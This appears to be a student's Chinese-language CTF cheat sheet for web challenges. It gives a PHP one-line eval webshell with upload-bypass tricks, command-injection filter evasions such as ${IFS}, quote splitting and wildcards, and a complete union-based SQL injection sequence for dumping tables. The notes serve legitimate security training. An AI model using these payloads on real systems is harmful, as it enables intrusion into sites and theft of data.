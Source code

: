 ## 请求

1. get请求

   1. 直接在链接后面加 ?需要的数据，==不需要在？前加/==

2. post 请求

   1. 使用hackbar，在post输入要输入的内容

3. json

   1. 格式 json = {“key”:”value}

4. 本地环回地址

   1. ```
      X-Forwarded-For:127.0.0.1
      ```

5. 注意大小写

## 登录

1. 用户名密码登录
   1. 步骤
      1. 看网页信息，看源码，
   
      ## PHP脚本
   
      1. 双写绕过
   
         ![image-20230509084252689](res/01.题目.assets/image-20230509084252689.png)
   
         1. 直接在get中设置两个
   
      2. 一句话木马
   
         1. 通过上传一个php文件，找到该文件在服务器中的位置，将其进行访问（相当于执行该文件)，
   
         2. 可以使用蚁剑进行连接，密码是上传的变量名
   
            1. 一般flag所在目录为ur/flag
   
         3. ```bash
             <?php @eval($_POST['abc']);?>
            ```
   
         4. 一句话木马可能限制实际上传文件格式为php，通过将文件后缀名改为.hptml进行绕过
   
      3. phpinfo
   
         1. 通过在php文件中编写phpinfo函数，再将其访问，前端自动返回，进行查找flag
   
         2. ```bash
            <?php phpinfo(); ?>
            ```
   
      4. PHP执行系统命令
   
         1. 通过传递参数，再执行参数
   
            1. 参数的格式：若要执行系统命令，则 
   
            2. ```bash
               system("ls /");
               ```
   
               1. 必须命令加路径，不能只有命令没有路径
               2. 必须结尾用封号结尾，表示一条命令结束
   
      5. eval（）函数
   
         1. 将所有收到的参数当做命令执行
            1. 不包含数字和字母的命令
               1. 通过将
   
   
      ## 文件
   
      1. 访问文件
   
         1. 防爬虫协议
            1. /robots/robots.txt
   
      2. vim编辑文件
   
         1. 其未完成会生成一个临时文件，.文件名.后缀.swp
         2. 使用wappalyzer看其使用的框架，PHP默认框架的默认文件是.index.php,则其临时文件可能是.index.php.swp
   
      3. 上传文件时，可能对文件类型限制，先将想要上传的文件后缀设为要求的文件后缀，但可以在请求头中保持上传文件类型不变，再在其上传文件名中进行修改其后缀，再使用蚁剑进行访问
   
      4. file协议
         1. file:///文件路径,///可在前面多次重复
      5. ![image-20230510103053761](res/01.题目.assets/image-20230510103053761.png)
   
   
      ## 检查
   
      1. 源代码
   
         ## MD5
   
         1. 登录的哈希验证
            1. a ！= b

## 系统命令注入

1. 发生条件

   1. 有执行命令函数
   2. 函数里有用户输入的变量，参数

2. 方式

   1. 确定执行变量时，在正常输入后加分号加命令。ip;ls/

3. 系统禁止命令解决

   1. 禁用空格：

      1. 通过设置一个空的变量表示空，需要将其括起来，eg:

      ```php
      cat${IFS}flag.php
      ```

      1. 使用< eg ：cat<flag.php
      2. <> :cat<>flag.php
      3. ,  :{cat,flag.php}

   2. 关键字屏蔽

      1. 转义：\ 反斜杠进行转义，其读取到\,但执行时并不执行该语句：cat f\lag.php
      2. ‘’ 转义：通过在关键字中间插入‘’来进行接触:  cat f’’lag.php
      3. 拆分再重组：‘fla’ +“g”
      4. 通配符匹配：fla*
         1. cat fla？.php：单个字符
         2. cat fla[f-h].php：中间字符
         3. cat fla{f ..h}.php：每个字符执行一遍
      5. 内联执行：
         1. 调整顺序，通过使用’‘将先执行的括起来，cat ’ls  | grep fla‘
      6. 使用变量，先定义变量，再进行拼接

      ## SQL
   
      ## 判断字段：
   
      ```
      ?wllm=-1' order by 3--+
      ```
   
      ## 查看回显点：
   
      ```
      ?wllm=-1' union select 1,2,3--+
      ```
   
      ## 查寻库名：
   
      ```
      ?wllm=-1' union select 1,2,database()--+`
      `//test_db
      ```
   
      ## 查询表明
   
      ```
      ?wllm=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='test_db'--+`
      `//test_tb,users
      ```
   
      ## 查询字段名
   
      ```
      ?wllm=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='test_tb'--+`
      `//flag
      ```
   
      ## 查询flag表里面内容
   
      ```
      /?wllm=-1' union select 1,2,group_concat(id,flag) from test_tb--+
      ```

## cev

1. 截断请求：


